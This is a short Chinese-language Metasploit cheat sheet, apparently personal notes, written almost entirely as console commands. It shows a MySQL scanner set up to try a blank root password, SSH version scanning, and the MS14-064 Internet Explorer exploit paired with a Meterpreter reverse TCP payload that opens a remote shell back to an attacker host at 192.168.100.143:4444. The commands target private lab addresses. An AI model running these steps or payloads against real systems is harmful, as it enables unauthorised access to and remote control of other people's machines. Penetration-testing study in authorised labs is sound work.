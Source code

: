 
	https://blog.csdn.net/qq_21310689/article/details/85594699
	
	apt-get  install metasploit-framework

jobs -K 停止所有



```
msfconsole -qr /home/xiaoxiaoran/shell/win.rc
msfconsole -qr /home/xiaoxiaoran/shell/linux.rc
```

```
resource 1.txt
```

```
systemctl restart postgresql  
msfdb init 
db_status
```

```
search name:mysql type:exploit
search platform:mysql   ‍‍缩小查询范围‍‍

```



## mysql扫描空密码

```
search mysql_login
use auxiliary/scanner/mysql/mysql_login 
show options 
set USERnAME root
set BlANK_PASSWORDS true
set rhosts 192.168.100.140
run
```

## ssh信息收集

```
search ssh_version
use auxiliary/scanner/ssh/ssh_version
options
set rhosts 192.168.100.140
run
```

## 利用win7系统的IE浏览器漏洞获取shell

```
use exploit/windows/browser/ms14_064_ole_code_execution
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.100.143
set LPORT 4444
options
set target 1
run
```
